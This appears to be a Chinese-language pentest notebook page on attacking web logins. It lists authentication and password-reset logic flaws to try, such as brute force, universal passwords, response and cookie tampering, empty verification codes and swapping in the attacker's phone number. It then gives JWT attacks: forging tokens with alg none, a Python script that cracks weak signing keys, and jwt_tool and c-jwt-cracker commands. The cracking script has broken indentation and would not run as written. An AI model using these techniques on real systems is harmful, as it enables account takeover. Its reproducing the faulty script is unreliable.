 ### 一些存在问题的逻辑
	部分来自：https://mp.weixin.qq.com/s/_0aQYV_4Tz9knQgzs7WSvw
	任意用户注册
	可爆破用户名
	爆破用户名，密码
	用户名注入
	万能密码
	用户名Xss
	修改返回包信息，登入他人账户
	修改cookie中的参数，如user,adminid等
	HTML源码、JS等查看信息搜集一章
	后台登录参数修改为注册参数/reg、/register、/sign等
	登录失败返回包修改，例如“false”改为“true”，响应数值“0”改为“1”，登录后台。如果存在这些情况，一般前端Js、Html也可以直接找到后端对应的各类未授权访问接口
	Js、Html存在用户名密码注释信息
	根据系统查找系统对应的默认账号密码登录
	有些系统的密码为空，密码不填或者抓包后置空发送
	存在信息泄露手机号、邮箱、人名等可以到社工库查找对应的密码
	社工字典密码生成https://github.com/zgjx6/SocialEngineeringDictionaryGenerator
	页面无注册功能，通过Js或Html找到隐藏注册接口注册登录
	注册时验证码没有做好绑定，删除验证码参数，或者验证码参数为空可以注册
	验证码没有做好绑定，发送了验证码但是后端接收到任意验证码都可以注册、爆破、重置密码等

	密码重置
    	1．重置一个账户，不发送验证码，设置验证码为空发送请求。
    	2．发送验证码，查看相应包
	3．验证码生存期的爆破
    	4．修改相应包为成功的相应包
    	5．手工直接跳转到校验成功的界面
    	6．两个账户，重置别人密码时，替换验证码为自己正确的验证码
    	7．重置别人密码时，替换为自己的手机号
    	8．重置自己的成功时，同意浏览器重置别人的，不发验证码
    	9．替换用户名，ID，cookie，token参数等验证身份的参数
    	10．通过越权修改他人的找回信息如手机/邮箱来重置 
### JWT攻击手法
  	https://jwt.io/#debugger-io
	http://jsonwebtoken.io
	eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkFtYXppbmcgSGF4eDByIiwiZXhwIjoiMTQ2NjI3MDcyMiIsImFkbWluIjp0cnVlfQ.UL9Pz5HbaMdZCV9cS9OcpccjrlkcmLovL2A2aiKiAOY
	eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9        # header
	eyJzdWIiOiIxMjM0[...]kbWluIjp0cnVlfQ        # payload
	UL9Pz5HbaMdZCV9cS9OcpccjrlkcmLovL2A2aiKiAOY # signature
 #### 未校验签名
  	将原JWT串解码后修改用户名等身份认证的地方，生成新token发送请求
 #### 禁用哈希
![image](/assets/Pentest_Note/master/img/1.png)<br>

	Alg代表加密方式，修改用户名等身份认证的地方，把HS256设置为none生成token发送请求，使用python的pyjwt模块
![image](/assets/Pentest_Note/master/img/2.png)<br>

jwt.encode({'user':'admin','arg1':'value1','arg2':'value2'},algorithm='none',key='')
 #### 爆破弱密钥
    >pip3 install pyjwt
    >python3 crack.py
```python
import jwt
import termcolor

jwt_str = R'token'
with open('/root/password.txt') as f:
  for line in f:
  key_ = line.strip()
  try:
    jwt.decode(jwt_str,verify=True,key=key_)
    print('\r','\bfound key -->',termcolor.colored(key_,'green'),'<--')
    break
  except(jwt.exceptions.ExpiredSignatureError,jwt.exceptions.InvalidAudienceError,jwt.exceptions.InvalidIssuedAtError,jwt.exceptions.InvalidIssuedAtError,jwt.exceptions.ImmatureSignatureError):
    print('\r','\bfound key -->',termcolor.colored(key_,'green'),'<--')
  except jwt.exceptions.InvalidSignatureError:
    print('\r',' ' * 64, '\r\btry',key_,end='',flush=True)
    continue
else:
  print('\r','\bnot found.')
```
```python
import jwt
encoded = jwt.encode({'some': 'payload'}, 'secret', algorithm='HS256') # encode with 'secret'

encoded = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE"
jwt.decode(encoded, 'Sn1f', algorithms=['HS256']) # decode with 'Sn1f' as the secret key

# result
{u'admin': True, u'sub': u'1234567890', u'name': u'John Doe'}
```  
 #### jwt_tool
	git clone https://github.com/ticarpi/jwt_tool
	python3 -m pip install termcolor cprint pycryptodomex requests
	python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6InVzZXIiLCJpYXQiOjE1MTYyMzkwMjJ9.1rtMXfvHSjWuH6vXBCaLLJiBghzVrLJpAQ6Dl5qD4YI -d /tmp/wordlist -C
 #### c-jwt-cracker
	git clone https://github.com/brendan-rius/c-jwt-cracker
	./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE